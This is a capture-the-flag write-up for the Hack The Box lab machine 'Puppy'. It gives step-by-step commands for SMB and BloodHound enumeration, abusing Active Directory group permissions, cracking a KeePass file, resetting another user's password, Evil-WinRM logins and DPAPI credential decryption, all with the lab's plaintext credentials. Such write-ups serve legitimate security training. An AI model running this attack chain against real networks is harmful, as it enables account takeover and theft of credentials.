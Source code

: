This write-up details the exploitation of the Puppy (HTB) machine, starting from network and SMB enumeration to Active Directory privilege escalation. It covers the use of tools such as nmap, smbclient, BloodHound, and Evil-WinRM to gain initial access, extract credentials from KeePass, leverage GenericAll permissions, and ultimately retrieve the user and root flags through DPAPI credential decryption.

## Step 1: Initial Enumeration

Start by identifying open ports and services:

```bash

nmap -T4 -p- -v -A -oX puppy_tcp.scan 10.10.11.70 --webxml
```

## Step 2: SMB Enumeration

List SMB shares with the given credentials:

```bash
smbclient -L //10.10.11.70 -U levi.james --password=KingofAkron2025!
```

Check for the shares. Note that `DEV` share is accessible after privilege escalation.

## Step 3: Bloodhound Information Gathering

Run Bloodhound to find relationships and permissions:

```bash
bloodhound-python -d PUPPY.HTB -u levi.james -p "KingofAkron2025!" -gc dc.puppy.htb -c all -ns 10.10.11.70
```

## Step 4: Privilege Escalation to Developers

Add the user `levi.james` to the `Developers` group:

```bash
net rpc group addmem "Developers" "levi.james" -U "PUPPY.HTB"/"levi.james"%"KingofAkron2025!" -S "10.10.11.70"
```

## Step 5: DEV Share Access

Access the DEV share and download `recovery.kdbx`:

```bash
smbclient //10.10.11.70/DEV -U levi.james --password=KingofAkron2025! -c "get recovery.kdbx"
```

## Step 6: Extract Credentials from KeePass

Brute force `recovery.kdbx` using rockyou.txt or other methods. Extract `ant.edwards:Antman2025!`.

## Step 7: Exploit GenericAll on adam.silver

Change password for `adam.silver`:

```bash
net rpc password "adam.silver" "Test12345!" -U "PUPPY.HTB"/"ant.edwards"%"Antman2025!" -S "10.10.11.70"
```

Enable the account:

```bash
bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```

## Step 8: Obtain User Flag

Connect as `adam.silver` to grab the user flag:

```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p Test12345!
```

## Step 9: Backup and Extract New Credentials

Download site backup and find `steph.cooper:ChefSteph2025!`. Connect as steph.cooper.

## Step 10: DPAPI and Root Flag

Access DPAPI credentials and decode master key. Use credentials `steph.cooper_adm:FivethChipOnItsWay2025!`:

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p FivethChipOnItsWay2025!
```

Access the Administrator's desktop for the root flag:

```bash
cat C:\Users\Administrator\Desktop\root.txt
```

